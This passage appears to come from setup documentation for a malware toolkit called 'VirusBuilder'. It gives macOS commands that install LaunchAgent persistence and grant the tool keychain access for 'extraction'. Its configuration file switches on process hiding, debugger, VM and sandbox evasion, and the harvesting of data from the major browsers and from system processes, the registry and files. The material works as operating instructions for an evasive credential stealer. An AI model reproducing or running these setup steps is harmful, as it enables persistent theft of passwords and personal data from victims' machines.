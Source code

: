 #### Step 3: macOS-Specific Features

**LaunchAgent Persistence**:
```bash
# Create LaunchAgent
mkdir -p ~/Library/LaunchAgents
cp config/com.virusbuilder.plist ~/Library/LaunchAgents/
launchctl load ~/Library/LaunchAgents/com.virusbuilder.plist
```

**Keychain Access**:
```bash
# Grant keychain access
python3 launcher.py --mode extraction --keychain-access
```

---

## ⚙️ Configuration

### Main Configuration File

Edit `config/settings.yaml`:

```yaml
application:
  name: "VirusBuilder"
  version: "2.0.0"
  debug_mode: false
  log_level: "INFO"

security:
  encryption:
    algorithm: "AES-256-GCM"
    key_derivation: "PBKDF2"
    iterations: 100000
    salt_length: 32
    key_length: 32
  
  anti_detection:
    process_hiding: true
    memory_protection: true
    debugger_detection: true
    vm_detection: true
    sandbox_evasion: true

extraction:
  max_threads: 8
  timeout: 30
  chunk_size: 8192
  retry_attempts: 3
  
  browsers:
    chrome: true
    edge: true
    firefox: true
    safari: true
  
  system:
    processes: true
    network: true
    registry: true
    services: true
    files: true
  
```